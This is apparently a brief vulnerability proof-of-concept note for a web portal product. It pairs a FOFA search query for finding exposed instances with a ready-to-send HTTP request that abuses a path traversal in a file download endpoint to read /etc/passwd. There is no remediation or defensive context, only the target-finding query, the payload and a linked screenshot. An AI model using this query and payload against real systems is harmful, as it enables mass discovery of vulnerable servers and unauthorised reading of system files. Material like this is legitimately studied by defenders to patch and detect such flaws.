 # fofa
```plain
fofa：body="/pf/portal/login/css/fonts/style.css"
```

# payload
```plain
GET /ma/emp/maEmp/download?fileName=../../../etc/passwd  HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
If-Modified-Since: Wed, 11 Oct 2023 05:16:05 GMT
Connection: close
```

![](https://cdn.nlark.com/yuque/0/2024/png/43104311/1727013291375-431c2b9d-5573-43f4-859d-577c79926b3a.png)















